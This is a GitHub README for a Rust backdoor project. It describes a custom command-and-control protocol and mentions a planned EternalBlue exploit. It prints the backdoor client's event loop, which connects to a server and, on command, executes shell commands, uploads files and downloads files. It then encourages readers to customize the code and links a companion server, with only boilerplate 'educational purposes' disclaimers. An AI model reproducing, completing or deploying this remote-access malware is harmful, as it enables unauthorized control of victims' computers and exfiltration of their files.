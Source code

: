 # Project Overview

## Introduction

This project stems from my interest in protocols and security, leading to the creation of a small backdoor and a proprietary protocol. The project is currently in development, with the backdoor's functionality completed and exploitation being implemented. I plan to use the EternalBlue exploit, and the entire backdoor and exploits are being developed exclusively in the Rust programming language.

**Note:** This project is still in progress.

## Features

- **Backdoor Functionality:** The backdoor's core functionality is complete and can be found in the `main.rs` file.
- **Exploits:** Exploits are being implemented in the `exploits.rs` file, currently featuring code for executing commands.
- **Dedicated Protocol:** The backdoor utilizes a dedicated protocol implemented in the `stprotocol.rs` file. It supports basic functionalities such as file upload, file download, and command execution.
- **Packet Structure:** The `structure.rs` file is dedicated to packet construction for the proprietary protocol, supporting packet conversion, serialization, and deserialization.

## Usage

### Backdoor

This project currently performs only basic functionalities.
However, if you wish to customize this project, please read the following guidelines. Below is an example code:

```
mod exploits;
mod stprotocol;
mod structure;

use exploits::{Exploits, Malware};
use std::thread;
use stprotocol::{Client, Session};
use structure::{Detector, Generator, StoneTransferProtocol, StructStone};

fn main() {
    let handle_server = thread::spawn(|| {
        event_loop(
            Session::new("127.0.0.1:6974".to_string()),
            StructStone::default(),
        )
    });

    handle_server
        .join()
        .expect("Connection to server is lost for unknown reasons. Backdoor terminated.");
}

fn event_loop(mut client: Session, mut packet: StructStone) {
    let mut exploit = Exploits::default();
    loop {
        // Loop for continuous communication with the server after creating a session

        packet = client.receiving(StructStone::default()); // Wait for the server's response after connection request

        println!("Server response type: {:?}", packet.get_type());

        match packet.get_type() {
            // Generate requests based on the server's response type
            StoneTransferProtocol::ExecuteCmd => {
                // If the type is ExecuteCmd
                client.exploit(exploit.command(packet));
            }
            StoneTransferProtocol::Download => {
                // If the type is Download
                client.download(packet);
            }
            StoneTransferProtocol::Upload => {
                // If the type is Upload
                client.upload(packet);
            }
            StoneTransferProtocol::Disconnect => {
                client.disconnect();
                break;
            }
            // If the server's response is Disconnect, terminate the connection

            _ => client.send(packet.get_stone()),
            // If the response type is not mentioned above, send a request similar to the server's response
        };
    }
}
```

1. **main.rs:** Contains the core functionalities of the backdoor.
2. **exploits.rs:** Manages the implementation of backdoor exploits.
3. **stprotocol.rs:** Houses the backdoor's proprietary protocol, supporting features like file upload, file download, and command execution.
4. **structure.rs:** Provides packet configuration for the protocol, including packet conversion, serialization, and deserialization.

### Customization

If you wish to customize this project, you can modify the code in the respective files: exploits.rs, stprotocol.rs, and structure.rs. Follow the provided comments for guidance.

Feel free to tailor the code to your specific requirements and functionalities. Remember to consider security implications and best practices when making changes.

Note: Ensure that your modifications comply with ethical standards and legal regulations. Unauthorized use of this code for malicious purposes is strictly prohibited.

## Python Server

This project includes a dedicated Python server. If you want the Python server, please visit [JustServer](https://github.com/3QNRpDwD/JustServer).

## How to Contribute

1. Fork this repository.
2. Create a new branch (`git checkout -b feature/new-feature`).
3. Make your changes (`git commit -am 'Add new feature'`).
4. Push to the branch (`git push origin feature/new-feature`).
5. Open a Pull Request.

## License

Open Source

**Disclaimer:** This project is for educational purposes only. Unauthorized use is strictly prohibited.
